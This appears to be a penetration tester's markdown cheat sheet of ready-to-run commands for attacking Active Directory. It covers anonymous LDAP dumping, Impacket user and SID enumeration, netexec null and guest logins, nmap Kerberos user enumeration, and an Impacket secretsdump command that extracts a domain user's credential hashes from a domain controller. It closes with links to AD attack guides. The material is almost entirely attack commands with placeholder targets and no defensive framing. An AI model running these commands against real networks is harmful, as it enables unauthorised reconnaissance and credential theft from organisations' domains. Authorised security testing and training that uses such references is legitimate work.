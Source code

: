 ```yaml
---
category: Uncategorized
tags: []
---
```

#enumeration #service-enumeration
# Note: Be cautious when brute forcing Active Directory, as it can trigger the Account Lockout Policy and disable user accounts.


## Anonymous Credential LDAP Dumping: 

- ldapsearch -LLL -x -H ldap://"domain fqdn" -b ‘’ -s base ‘(objectclass=*)’

Impacket GetADUsers.py (Must have valid credentials)

- GetADUsers.py -all domain\User -dc-ip 172.21.0.0

Impacket lookupsid.py:

- /usr/share/doc/python3-impacket/examples/lookupsid.py username:password@172.21.0.0

Impacket Secretdump:

python3 secretdump.py 'breakme.local/Administrator@172.21.0.0' -just-dc-user anakin

Windapsearch:

https://github.com/ropnop/windapsearch 

- python3 windapsearch.py -d host.domain -u domain\\ldapbind -p PASSWORD -U

## Netexec:

- netexec ldap "ip-address" -u "" -p "" -d "domain"

- netexec ldap "ip address" -u "Guest" -p "" -d "domain"

## Enumerating for users through kerberos

- sudo nmap --script=krb5-enum-users --script-args="krb5-enum-users.realm='megacorpone.com',users.txt" 172.21.0.0

## References: 

- PayloadAllTheThings:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#most-common-paths-to-ad-compromise

- Attacking Active Directory: 0 to 0.9:
https://zer1t0.gitlab.io/posts/attacking_ad/